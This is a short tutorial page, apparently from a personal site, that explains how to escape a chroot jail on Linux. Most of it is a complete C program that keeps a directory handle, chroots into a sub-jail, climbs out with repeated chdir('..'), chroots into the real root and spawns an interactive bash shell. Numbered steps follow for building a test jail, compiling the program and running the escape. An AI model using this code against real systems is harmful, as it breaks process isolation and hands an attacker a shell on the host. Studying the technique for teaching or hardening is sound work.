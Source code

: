 <h1 class="header">Chroot Escaping</h1>
</br>
*09 November 2014* | [Revision History](https://github.com/sevaivanov/kedfilms/commits/master/frontend/static/frontend/md/hacks/chroot.md)

FD:

A [F]ile [D]escriptor is a pointer to a file.

Each Process has a working directory.
</br></br>

Chroot():

Says to everyone:  Hey, it's the new root!

It changes **sometimes** their working directory to this new root.

Everyone (processes) is locked in this place & not aware of a higher location.


# Using C & gcc

Tested on Debian Wheezy 3.2

Jargon:

1. Real Root : System root
2. Mother Root : Where we are locked, chrooted into.
3. Sub Jail: A new jail that we create in the Mother Root.

## chroot-escape.c

    #include <sys/stat.h>
    #include <unistd.h>
    #include <fcntl.h>

    // printf()
    #include <stdio.h>
    // exit()
    #include <stdlib.h>

    int main()
    {
        int jail_fd;

        /*
            Not root? Set the effective user id to 0, root.
            Priviledged status depends only on the effective UID      
            http://unixpapa.com/incnote/setuid.html
        */
        if (getuid() != 0)
        {
            // printf("%d", geteuid());
            setuid(0);
        }

        /*
            Return a FD of current jail directory (Mother Jail).
            It's a pointer to the mother jail.
            Original chroot() call did not close his FD.
        */
        jail_fd = open(".", O_RDONLY);

        /*
            We need to go inside a Sub Jail created by us.
            You can NOT close your Mother Jail while inside.
        */
        mkdir("cell", 0755);
        chroot("cell");

        /*
            Let's go outside of our new jail to the motherjail.
            Everyone thinks our root is the [yourjail/].
            Since we're root, the system can't stop us.
            We have to refer by a FD because we don't know its path.
        */
        fchdir(jail_fd);

        /*
            Let's close the FD.
            All of the resources of this FD will be freed.
            The mother jail is shut down!
            We're outside of the Sub Jail created by us somewhere we don't know.
        */
        close(jail_fd);

        /*
            Let's go higher & higher to touch the skies!
            Going too high will be interpreted as going to root.
        */
        int i;
        for(i = 0; i < 1000; i++)
        {
            chdir("..");
        }

        // Chroot to the real root place.
        chroot(".");

        // Run an interactive shell from there.
        return execl("/bin/bash", "-i", NULL);
    }


Inspired from [filippo.io](https://filippo.io/escaping-a-chroot-jail-slash-1)

## How to test:

1. Make a jail

        apt-get install binutils debootstrap
        mkdir -p /jails/yourjail
        debootstrap --arch i386 wheezy /jails/yourjail http://http.debian.net/debian
        touch /jails/yourjail/IN_JAIL_NOW

    Inspired from [debian docs](https://wiki.debian.org/chroot).

2. Compile to executable into yourjail

        gcc -static -o jails/yourjail/escape jails/chroot-escape.c

3. Chroot into yourjail

        chroot /jails/yourjail

4. Escape

        ./escape && ls

<p class="footer"></p>